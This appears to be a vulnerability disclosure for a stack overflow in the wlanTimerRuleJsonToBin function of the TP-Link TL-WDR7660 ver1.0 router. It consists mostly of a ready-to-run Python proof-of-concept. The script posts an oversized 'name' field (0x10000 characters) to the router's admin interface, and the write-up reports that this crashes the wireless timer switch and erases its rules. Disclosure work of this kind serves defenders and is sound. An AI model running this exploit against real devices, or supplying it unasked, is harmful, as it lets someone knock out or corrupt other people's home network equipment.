 **A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The wlanTimerRuleJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

![image](image/1.png)

**Exploit a vulnerability in the wlanTimerRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"time_switch":{"name":"a"*0x10000,"table":"time_switch","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"a","enable":1,"start_time":"00%3A00","end_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

***(1)Before the above code is executed, the infinite timing switch operates normally, as shown in the following figure***
![image](image/2.png)
***(2)After executing the above code, the wireless timing switch crashes and the rule for adding the timing switch disappears***

